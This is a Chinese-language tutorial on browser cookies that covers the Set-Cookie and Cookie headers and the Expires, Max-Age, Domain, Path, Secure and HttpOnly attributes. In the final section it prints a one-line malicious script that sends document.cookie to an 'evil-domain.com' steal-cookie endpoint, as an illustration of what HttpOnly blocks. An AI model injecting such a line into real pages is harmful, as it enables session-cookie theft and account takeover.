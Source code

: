 # Cookie

## 概述

Cookie 是服务器保存在浏览器的一小段文本信息，一般大小不能超过4KB。浏览器每次向服务器发出请求，就会自动附上这段信息。

Cookie 主要保存状态信息，以下是一些主要用途。

- 对话（session）管理：保存登录、购物车等需要记录的信息。
- 个性化信息：保存用户的偏好，比如网页的字体大小、背景色等等。
- 追踪用户：记录和分析用户行为。

Cookie 不是一种理想的客户端储存机制。它的容量很小（4KB），缺乏数据操作接口，而且会影响性能。客户端储存应该使用 Web storage API 和 IndexedDB。只有那些每次请求都需要让服务器知道的信息，才应该放在 Cookie 里面。

每个 Cookie 都有以下几方面的元数据。

- Cookie 的名字
- Cookie 的值（真正的数据写在这里面）
- 到期时间（超过这个时间会失效）
- 所属域名（默认为当前域名）
- 生效的路径（默认为当前网址）

举例来说，用户访问网址`www.example.com`，服务器在浏览器写入一个 Cookie。这个 Cookie 的所属域名为`www.example.com`，生效路径为根路径`/`。如果 Cookie 的生效路径设为`/forums`，那么这个 Cookie 只有在访问`www.example.com/forums`及其子路径时才有效。以后，浏览器访问某个路径之前，就会找出对该域名和路径有效，并且还没有到期的 Cookie，一起发送给服务器。

用户可以设置浏览器不接受 Cookie，也可以设置不向服务器发送 Cookie。`window.navigator.cookieEnabled`属性返回一个布尔值，表示浏览器是否打开 Cookie 功能。

```
window.navigator.cookieEnabled // true
```

`document.cookie`属性返回当前网页的 Cookie。

```
document.cookie // "id=foo;key=bar"
```

不同浏览器对 Cookie 数量和大小的限制，是不一样的。一般来说，单个域名设置的 Cookie 不应超过30个，每个 Cookie 的大小不能超过4KB。超过限制以后，Cookie 将被忽略，不会被设置。

浏览器的同源政策规定，两个网址只要域名相同，就可以共享 Cookie（参见《同源政策》一章）。注意，这里不要求协议相同。也就是说，`http://example.com`设置的 Cookie，可以被`https://example.com`读取。

## Cookie 与 HTTP 协议

Cookie 由 HTTP 协议生成，也主要是供 HTTP 协议使用。

### HTTP 回应：Cookie 的生成

服务器如果希望在浏览器保存 Cookie，就要在 HTTP 回应的头信息里面，放置一个`Set-Cookie`字段。

```
Set-Cookie:foo=bar
```

上面代码会在浏览器保存一个名为`foo`的 Cookie，它的值为`bar`。

HTTP 回应可以包含多个`Set-Cookie`字段，即在浏览器生成多个 Cookie。下面是一个例子。

```
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry

[page content]
```

除了 Cookie 的值，`Set-Cookie`字段还可以附加 Cookie 的属性。

```
Set-Cookie: <cookie-name>=<cookie-value>; Expires=<date>
Set-Cookie: <cookie-name>=<cookie-value>; Max-Age=<non-zero-digit>
Set-Cookie: <cookie-name>=<cookie-value>; Domain=<domain-value>
Set-Cookie: <cookie-name>=<cookie-value>; Path=<path-value>
Set-Cookie: <cookie-name>=<cookie-value>; Secure
Set-Cookie: <cookie-name>=<cookie-value>; HttpOnly
```

上面的几个属性的含义，将在后文解释。

一个`Set-Cookie`字段里面，可以同时包括多个属性，没有次序的要求。

```
Set-Cookie: <cookie-name>=<cookie-value>; Domain=<domain-value>; Secure; HttpOnly
```

下面是一个例子。

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
```

如果服务器想改变一个早先设置的 Cookie，必须同时满足四个条件：Cookie 的`key`、`domain`、`path`和`secure`都匹配。举例来说，如果原始的 Cookie 是用如下的`Set-Cookie`设置的。

```
Set-Cookie: key1=value1; domain=example.com; path=/blog
```

改变上面这个 Cookie 的值，就必须使用同样的`Set-Cookie`。

```
Set-Cookie: key1=value2; domain=example.com; path=/blog
```

只要有一个属性不同，就会生成一个全新的 Cookie，而不是替换掉原来那个 Cookie。

```
Set-Cookie: key1=value2; domain=example.com; path=/
```

上面的命令设置了一个全新的同名 Cookie，但是`path`属性不一样。下一次访问`example.com/blog`的时候，浏览器将向服务器发送两个同名的 Cookie。

```
Cookie: key1=value1; key1=value2
```

上面代码的两个 Cookie 是同名的，匹配越精确的 Cookie 排在越前面。

### HTTP 请求：Cookie 的发送

浏览器向服务器发送 HTTP 请求时，每个请求都会带上相应的 Cookie。也就是说，把服务器早前保存在浏览器的这段信息，再发回服务器。这时要使用 HTTP 头信息的`Cookie`字段。

```
Cookie: foo=bar
```

上面代码会向服务器发送名为`foo`的 Cookie，值为`bar`。

`Cookie`字段可以包含多个 Cookie，使用分号（`;`）分隔。

```
Cookie: name=value; name2=value2; name3=value3
```

下面是一个例子。

```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
```

服务器收到浏览器发来的 Cookie 时，有两点是无法知道的。

- Cookie 的各种属性，比如何时过期。
- 哪个域名设置的 Cookie，到底是一级域名设的，还是某一个二级域名设的。

## Cookie 的属性

### Expires，Max-Age

`Expires`属性指定一个具体的到期时间，到了指定时间以后，浏览器就不再保留这个 Cookie。它的值是 UTC 格式，可以使用`Date.prototype.toUTCString()`进行格式转换。

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

如果不设置该属性，或者设为`null`，Cookie 只在当前会话（session）有效，浏览器窗口一旦关闭，当前 Session 结束，该 Cookie 就会被删除。另外，浏览器根据本地时间，决定 Cookie 是否过期，由于本地时间是不精确的，所以没有办法保证 Cookie 一定会在服务器指定的时间过期。

`Max-Age`属性指定从现在开始 Cookie 存在的秒数，比如`60 * 60 * 24 * 365`（即一年）。过了这个时间以后，浏览器就不再保留这个 Cookie。

如果同时指定了`Expires`和`Max-Age`，那么`Max-Age`的值将优先生效。

如果`Set-Cookie`字段没有指定`Expires`或`Max-Age`属性，那么这个 Cookie 就是 Session Cookie，即它只在本次对话存在，一旦用户关闭浏览器，浏览器就不会再保留这个 Cookie。

### Domain，Path

`Domain`属性指定浏览器发出 HTTP 请求时，哪些域名要附带这个 Cookie。如果没有指定该属性，浏览器会默认将其设为当前域名，这时子域名将不会附带这个 Cookie。比如，`example.com`不设置 Cookie 的`domain`属性，那么`sub.example.com`将不会附带这个 Cookie。如果指定了`domain`属性，那么子域名也会附带这个 Cookie。如果服务器指定的域名不属于当前域名，浏览器会拒绝这个 Cookie。

`Path`属性指定浏览器发出 HTTP 请求时，哪些路径要附带这个 Cookie。只要浏览器发现，`Path`属性是 HTTP 请求路径的开头一部分，就会在头信息里面带上这个 Cookie。比如，`PATH`属性是`/`，那么请求`/docs`路径也会包含该 Cookie。当然，前提是域名必须一致。

### Secure，HttpOnly

`Secure`属性指定浏览器只有在加密协议 HTTPS 下，才能将这个 Cookie 发送到服务器。另一方面，如果当前协议是 HTTP，浏览器会自动忽略服务器发来的`Secure`属性。该属性只是一个开关，不需要指定值。如果通信是 HTTPS 协议，该开关自动打开。

`HttpOnly`属性指定该 Cookie 无法通过 JavaScript 脚本拿到，主要是`document.cookie`属性、`XMLHttpRequest`对象和 Request API 都拿不到该属性。这样就防止了该 Cookie 被脚本读到，只有浏览器发出 HTTP 请求时，才会带上该 Cookie。

```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的 Cookie 发往第三方服务器。如果设置了一个 Cookie 的`HttpOnly`属性，上面代码就不会读到该 Cookie。
